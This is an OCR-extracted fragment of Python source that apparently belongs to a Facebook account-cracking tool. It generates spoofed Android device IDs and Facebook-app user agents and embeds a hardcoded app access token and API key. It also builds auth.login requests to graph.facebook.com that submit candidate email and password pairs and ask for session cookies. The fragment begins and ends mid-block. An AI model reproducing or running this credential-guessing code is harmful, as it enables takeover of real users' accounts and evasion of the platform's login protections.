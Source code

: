                         fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77)) +";FBBV/"+str(random.randint(1111111,7777777))+";[FBAN/FB4A;FBAV/;FBBV/;[FBAN/FB4A;FBAV/71.0.3578.141;FBBV/257460578;FBD6M/&{density=2.0,width=720,height=1};FBLC/en_Us;FBRV/0;FBCR/Entel 4G;FBMF/Xiaomi;FBBD/Xiaomi;FBPN/com.facebook.katana;FBDV/Redmi Note 10 Lite;FBSV/7.1.2;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data={'meta_inf_fbmeta': 'NO_FILE', 'adid': '8ecEA4acCe1CD36A', 'format': 'json', 'device_id': 'cee88ca9-2807-46e1-90b1-d844c2d35a66', 'cpl': 'true', 'family_device_id': '5fd72445-770d-4d03-a3b2-f40b86f0d79d', 'credentials_type': 'device_based_login_password', 'error_detail_type': 'button_with_disabled', 'source': 'device_based_login', 'email': ids, 'password': pas, 'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'generate_session_cookies': '1', 'meta_inf_fbmeta': '', 'advertiser_id': '8b59ed89-4b88-4f69-a1ed-dfea59e76839', 'currently_logged_in_userid': '0', 'locale': 'en_GB', 'client_country_code': 'GB', 'method': 'auth.login', 'fb_api_req_friendly_name': 'authenticate', 'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 'api_key': '882a8490361da98702bf97a021ddc14d'}
                        data={'meta_inf_fbmeta': 'NO_FILE', 'adid': '24F2cb1dE84eEd52', 'format': 'json', 'device_id': '9d53cfef-dab3-49b5-bc7d-d170845ef5a6', 'cpl': 'true', 'family_device_id': '261a8e1c-c1a1-4915-99b9-d7c217e4ad9f', 'credentials_type': 'device_based_login_password', 'error_detail_type': 'button_with_disabled', 'source': 'device_based_login', 'email': ids, 'password':  pas, 'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'generate_session_cookies': '1', 'meta_inf_fbmeta': '', 'advertiser_id': '8b59ed89-4b88-4f69-a1ed-dfea59e76839', 'currently_logged_in_userid': '0', 'locale': 'en_GB', 'client_country_code': 'GB', 'method': 'auth.login', 'fb_api_req_friendly_name': 'authenticate', 'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 'api_key': '882a8490361da98702bf97a021ddc14d'}
                        headers={'User-Agent': '[FBAN/FB4A;FBAV/74.0.0.2322;FBBV/2424273;[FBAN/FB4A;FBAV/243.0.0.47.108;FBBV/178056661;FBDM/{density=3.0,width=1080,height=2139};FBLC/en_GB;FBRV/179063150;FBCR/3;FBMF/HUAWEI;FBBD/HONOR;FBPN/com.facebook.katana;FBDV/HRY-LX1T;FBSV/9;FBOP/1;FBCA/arm64-v8a:;]', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': '25227', 'X-FB-SIM-HNI': '29752', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 'Content-Length': '706'}
                        headers={'User-Agent': '[FBAN/FB4A;FBAV/67.0.0.2977;FBBV/2782986;[FBAN/FB4A;FBAV/243.0.0.47.108;FBBV/178056661;FBDM/{density=3.0,width=1080,height=2139};FBLC/en_GB;FBRV/179063150;FBCR/3;FBMF/HUAWEI;FBBD/HONOR;FBPN/com.facebook.katana;FBDV/HRY-LX1T;FBSV/9;FBOP/1;FBCA/arm64-v8a:;]', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': '25227', 'X-FB-SIM-HNI': '29752', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 'Content-Length': '706'}